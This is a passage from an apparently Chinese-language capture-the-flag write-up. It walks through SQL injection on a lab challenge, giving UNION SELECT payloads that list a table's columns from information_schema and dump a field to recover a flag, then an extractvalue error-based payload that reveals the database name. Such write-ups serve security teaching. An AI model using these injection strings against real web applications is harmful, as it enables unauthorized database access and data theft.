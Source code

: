 表名：*ggcpkcbobkehkqjl*

**注入出某一个表中的全部列名**

`Amy Jones'  union select 1,2,3,(select group_concat(column_name) from information_schema.columns where table_name='ggcpkcbobkehkqjl')#`

![alt text](assets/writeup/image-31.png)

列名：*hjkdmkdikinccbed*

**注入出字段内容**

`Amy Jones' union select 1,2,3,(select hjkdmkdikinccbed from ggcpkcbobkehkqjl) #`

![alt text](assets/writeup/image-32.png)

*flag{cc8c7fd3b3902482ff04e3ffbb75f0dd}*


## ex1.高级户籍表

**注入得到数据库名**

`Amy Jones' and extractvalue(1,concat(0x7e,database()));#`

![alt text](assets/writeup/image-33.png)
